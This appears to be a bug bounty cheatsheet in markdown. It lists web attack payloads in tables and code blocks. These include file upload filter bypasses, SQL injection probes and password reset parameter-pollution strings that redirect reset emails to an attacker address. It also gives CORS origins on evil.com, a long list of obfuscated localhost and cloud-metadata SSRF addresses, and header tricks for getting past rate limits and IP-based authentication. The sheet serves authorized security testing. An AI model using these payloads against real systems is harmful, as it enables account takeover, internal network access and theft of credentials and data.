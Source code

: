 # Bounty Hunter Cheatsheet
---

## File Upload

| Filename | Description |
|----------|-------------|
|.htaccess|htaccess rules|
|file.svg|svg for xss|
|file.SVg|case insensitive|
|file.png.svg|double extension|
|file.php%00.png|null byte|
|file.png' or '1'='1|sql injection|
|../../file.png|directory traversal|
|file.'svg|invalid extension|

## Password Reset

### Parameter payloads

| Payload | Description |
|----------|-------------|
|email=victim@xyz.tld&email=hacker@xyz.tld|double parameter|
|email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld|carbon copy parameter|
|email=victim@xyz.tld,hacker@xyz.tld|colon separator|
|email=victim@xyz.tld%20hacker@xyz.tld|space separator|
|email=victim@xyz.tld\|hacker@xyz.tld|pipe separator|
|email=victim|no domain or tld|
|email=victim@xyz|no tld|
|{"email":["victim@tld.xyz","hacker@tld.xyz"]}|json multiple email table|

### Related other cases

| Technique | Goal |
|----------|-------------|
|reset token modification|account takeover|
|body response token leak|account takeover|
|token guess or bruteforce (timestamp, userid)|account takeover|
|modify header host domain|host reflected in mail and steal token|

## SQL Injection

| Payload | Description |
|----------|-------------|
|/?q=1'|simple quote|
|/?q=1"|double quote|
|/?q=[1]|array value|
|/?q[]=1|array parameter|
|/?q=1\`|backquote|
|/?q=1\\ |escape backslash|
|/?q=1/\*'\*/|comment simple quote|
|/?q=1/\*!1111'\*/|comment simple quote|
|/?q=1'\|\|'asd'\|\|'|string concatenation|
|/?q=1' or '1'='1|or statement with quotes|
|/?q=1 or 1=1| or statement without quotes|
|/?q='or''='|or statement no spaces|

## CORS

| Payload | Description |
|----------|-------------|
|evil.com|attacker's fqdn|
|company.evil|attacker's tld|
|evil.company.tld|attacker's subdomain|

## Recon

| Description | Payload |
|----------|-------------|
|google dork|site:http://ideone.com \| site:http://codebeautify.org \| site:http://codeshare.io \| site:http://codepen.io \| site:http://repl.it \| site:http://justpaste.it \| site:http://pastebin.com \| site:http://jsfiddle.net \| site:http://trello.com "$TARGET"|

## File analysis

| Description | Payload |
|----------|-------------|
|find url in file|grep -Eo "(http\|https)://[a-zA-Z0-9./?=\_-]\*" \| sort -u|

## Rate limit bypass

| Description | Payload |
|----------|-------------|
|header substitution (increment if blocked)|X-Originating-IP: IP<br>X-Forwarded-For: IP<br>X-Remote-IP: IP<br>X-Remote-Addr: IP<br>X-Client-IP: IP<br>X-Host: IP<br>X-Forwared-Host: IP|

## Subdomain list

| Tool | Description |
|----------|-------------|
|amass|scan for subdomains|
|altdns|compute wordlist with result for new subdomains|
|dnsprobe|check if found subdomain is valid|
|nmap|scan subdomain port|

## Information disclosure

| Issue | Description |
|----------|-------------|
|logic|email disclosed in response after inviting a user|
|access control|reverse search api known private data<br>**GET /api/users?email=X**|

## SSRF

`site.com/?url=FUZZ`

```
http://169.254.169.254\http://0.google.com <=== PHP cve2020
https://[0:0:0:0:0:0:0:0]
https://0.0.0.0
https://[::]
https://0177.1
https://0x7f.1
http://0x7f000001
http://2130706433
http://127.000.001
https://[0:0:0:0:0:ffff:0.0.0.0]
https://[::ffff:0.0.0.0]
https://017700000001
https://[0:0:0:0:0:ffff:127.0.0.1]
https://[::ffff:127.0.0.1]/
https://[::ffff:7f00:2]
https://[::ffff:127.0.0.1]
https://[::ffff:7f00:1]
https://[0:0:0:0:0:ffff:127.0.0.2]
http://[::ffff:169.254.169.254]
http://[0:0:0:0:0:ffff:169.254.169.254]
https://[::ffff:127.0.0.2]
http://[::ffff:a9fe:a9fe]
https://0x7f.0.0.1
https://[::ffff:0:0]
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
http://169-254-169-254.nip.io
http://127.1
http://127.000000000000000.001
http://127.000.000.00000000000000001
```

## Account Takeover

UUID, 2FA, any token...

```
UUID: 0
UUID: 0000
UUID: null
UUID: nil
UUID: numerical value
UUID:
```

## Bad Practice

- Check if email links are in HTTP
- Check if old password is asked when changing password

## Auth bypass

`X-Custom-IP-Authorization: 127.0.0.1`
